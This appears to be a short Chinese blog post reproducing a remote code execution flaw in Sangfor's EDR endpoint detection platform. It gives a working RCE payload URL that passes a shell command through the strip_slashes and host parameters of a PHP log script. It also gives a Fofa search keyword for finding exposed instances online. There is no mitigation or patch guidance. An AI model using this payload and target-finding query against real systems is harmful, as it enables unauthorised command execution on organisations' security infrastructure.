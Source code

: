 # 深X服 EDR终端检测系统RCE漏洞复现




#### 简介

深信服终端检测响应平台EDR，围绕终端资产安全生命周期，通过预防、防御、检测、响应赋予终端更为细致的隔离策略、更为精准的查杀能力、更为持续的检测能力、更为快速的处置能力。在应对高级威胁的同时，通过云网端联动协同、威胁情报共享、多层级响应机制，帮助用户快速处置终端安全问题，构建轻量级、智能化、响应快的下一代终端安全系统。



#### EDR的界面

<img src="http://image.geoer.cn/rce11.jpg"></img>





#### RCE Payload

```bash
https://xxx.com:xxx/tool/log/c.php?strip_slashes=system&host=id
```

<img src="http://image.geoer.cn/rce22.jpg"></img>





#### **Fofa关键字** 

```bash
title="终端检测响应平台"
```



---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/%E6%B7%B1x%E6%9C%8D-edr%E7%BB%88%E7%AB%AF%E6%A3%80%E6%B5%8B%E7%B3%BB%E7%BB%9Frce%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/  

